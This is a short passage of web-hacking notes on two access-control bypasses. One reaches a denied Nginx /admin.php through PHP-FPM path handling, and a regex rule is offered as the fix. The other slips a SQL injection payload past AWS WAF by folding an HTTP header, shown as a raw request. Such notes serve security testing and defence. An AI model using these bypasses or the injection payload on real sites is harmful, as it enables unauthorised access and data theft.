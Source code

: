 
## PHP-FPM
Let's consider the following Nginx FPM configuration:
```bash
location = /admin.php {
    deny all;
}

location ~ \.php$ {
    include snippets/fastcgi-php.conf;
    fastcgi_pass unix:/run/php/php8.1-fpm.sock;
}
```

It's possible to bypass it accessing /admin.php/index.php:

![php](https://github.com/Mehdi0x90/Web_Hacking/assets/17106836/24ef2f4b-1cf4-46e7-975b-ef0135043326)


## How to prevent
To prevent these issues, you must use the ~ expression Instead of the = expression on Nginx ACL rules, for example:

COPYCOPY

```bash
location ~* ^/admin {
    deny all;
}
```

## Bypassing AWS WAF ACL With Line Folding
It's possible to bypass AWS WAF protection in a HTTP header by using the following syntax where the AWS WAF won't understand `X-Query` header contains a **sql injection payload** while the node server behind will:

```html
GET / HTTP/1.1\r\n
Host: target.com\r\n
X-Query: Value\r\n
\t' or '1'='1' -- \r\n
Connection: close\r\n
\r\n
```

* [References](https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies)


## Tools
* [GoTestWAF](https://github.com/wallarm/gotestwaf) - A tool to test a WAF's detection logic and bypasses

